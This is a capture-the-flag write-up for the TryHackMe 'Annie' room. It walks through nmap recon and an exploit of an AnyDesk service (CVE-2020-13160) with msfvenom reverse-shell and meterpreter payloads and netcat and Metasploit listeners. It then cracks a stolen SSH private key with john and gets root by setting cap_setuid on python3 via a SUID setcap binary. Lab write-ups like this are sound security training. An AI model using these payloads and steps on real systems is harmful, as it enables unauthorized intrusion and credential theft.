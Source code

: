 ```yaml
---
title: Box - Annie
published: true
---
```


TryHackMe CTF Box - Remote access comes in different flavors.

[https://tryhackme.com/room/annie](https://tryhackme.com/room/annie)

![0xskar](/assets/annie01.webp)

* * *

## Recon - Research - Exploit 

##   Nmap Scans

- ``sudo nmap -Pn -sS -p- 10.10.7.95 -vvv``
- ``sudo nmap -sC -sV -O 10.10.7.95 -p22,7070,38491,42043``

- We can see ssh and "realserver" are open

* * * 

## Anydesk Client

```shell
PORT     STATE SERVICE         VERSION
7070/tcp open  ssl/realserver?
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=AnyDesk Client
```

- [CVE-2020-13160](https://www.exploit-db.com/exploits/49613)

1. ``msfvenom -p linux/x64/shell_reverse_tcp LHOST=ip LPORT=7777 -b "\x00\x25\x26" -f python -v shellcode``
2. inset into payload and setup ``nc -nvlp 7777``

![0xskar](/assets/annie02.png)

* * * 

## PrivESC

1. upgrade shell ``python3 -c 'import pty; pty.spawn("/bin/bash")'``
2. setup more stable staged meterpreter shell and wget it over ``msfvenom -p linux/x64/meterpreter/reverse_tcp  LHOST=10.x.x.x LPORT=5555 -f elf > meterpreter.elf``
3. ``msfconsole use exploit/multi/handler`` & ``set payload linux/x64/meterpreter/reverse_tcp``
4. annie has id_rsa keys available in her home lets download in metasploit and then feed them to john
5. ``ssh2john id_rsa > anniejohn``
6. ``john anniejohn --wordlist=/usr/share/seclists/Passwords/rockyou.txt``

![annie123](/assets/annie03.png)

Now that we have annie ssh to make things easiar we can login there and continue with privesc

1. linpeas.sh
2. https://nxnjz.net/2018/08/an-interesting-privilege-escalation-vector-getcap/

```shell
-rwsr-xr-x 1 root root 10K Nov 16  2017 /sbin/setcap (Unknown SUID binary)
```

setcap allows us to set special permissions on files allowing us to privesc. Is we set cap_setuid+ep into a binary it can lead to privilege escalation. See the process in below pic.

![0xskar](/assets/annie04.png)

1. We check permissions on python3 as we can use that to spawn a root shell with SUID
2. It doesnt have the special permission so we can copy it from its directory to annies and setcap cap_setuid+ep and spawn a shell.

* * * 

